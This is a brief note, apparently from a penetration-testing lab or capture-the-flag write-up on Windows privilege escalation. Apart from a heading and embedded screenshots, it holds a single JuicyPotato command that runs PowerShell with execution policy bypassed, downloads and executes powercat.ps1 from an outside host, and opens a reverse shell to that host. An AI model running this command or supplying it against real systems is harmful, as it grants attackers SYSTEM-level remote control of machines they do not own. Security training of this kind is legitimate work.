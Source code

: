 Privileges
![[Pasted image 20240819170544.png]]

```powershell
JuicyPotato.exe -l 1337 -c "{03ca98d6-ff5d-49b8-abc6-03dd84127020}" -p "C:\Windows\System32\cmd.exe" -a "/c powershell -ep bypass iex (New-Object Net.WebClient).DownloadString('http://10.11.103.8/powercat.ps1');powercat -c 10.11.103.8 -p 4236 -e cmd" -t *
```
![[Pasted image 20240819170557.png]]
![[Pasted image 20240819170605.png]]

